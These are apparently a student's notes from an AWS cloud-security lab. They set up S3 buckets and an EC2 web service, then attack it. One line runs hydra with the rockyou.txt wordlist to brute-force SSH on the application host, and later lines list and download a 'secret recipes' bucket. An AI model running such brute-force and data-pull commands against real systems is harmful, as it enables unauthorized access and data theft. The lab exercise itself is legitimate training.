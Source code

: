 # Exercise 1

## Outputs

BucketArnVPCFlowLogs	arn:aws:s3:::cand-c3-vpc-flow-logs-787614237147
BucketNameRecipesFree	cand-c3-free-recipes-787614237147
BucketNameRecipesSecret	cand-c3-secret-recipes-787614237147

ApplicationInstanceIP	ec2-3-224-223-36.compute-1.amazonaws.com
ApplicationURL	c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com
AttackInstanceIP	ec2-52-202-180-62.compute-1.amazonaws.com

## Upload data

aws s3 cp free_recipe.txt s3://cand-c3-free-recipes-787614237147/ --region us-east-1

aws s3 cp secret_recipe.txt s3://cand-c3-secret-recipes-787614237147/ --region us-east-1

## Test app

http://c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com/free_recipe


# Exercise 3

## Connect to attack instance

ssh -i ../recipe-vault-key.pem ubuntu@ec2-52-202-180-62.compute-1.amazonaws.com
ssh -i ../recipe-vault-key.pem ubuntu@ec2-3-85-137-57.compute-1.amazonaws.com

## Run the attack

hydra -l ubuntu -P rockyou.txt ssh://ec2-3-224-223-36.compute-1.amazonaws.com

## Task 2
### view the files in the secret recipes bucket
aws s3 ls  s3://cand-c3-secret-recipes-787614237147/ --region us-east-1
### download the files
aws s3 cp s3://cand-c3-secret-recipes-787614237147/secret_recipe.txt  .  --region us-east-1
### view contents of the file
cat secret_recipe.


# Exercise 4

## Connect to web service instance

ssh -i ../recipe-vault-key.pem ubuntu@ec2-3-224-223-36.compute-1.amazonaws.com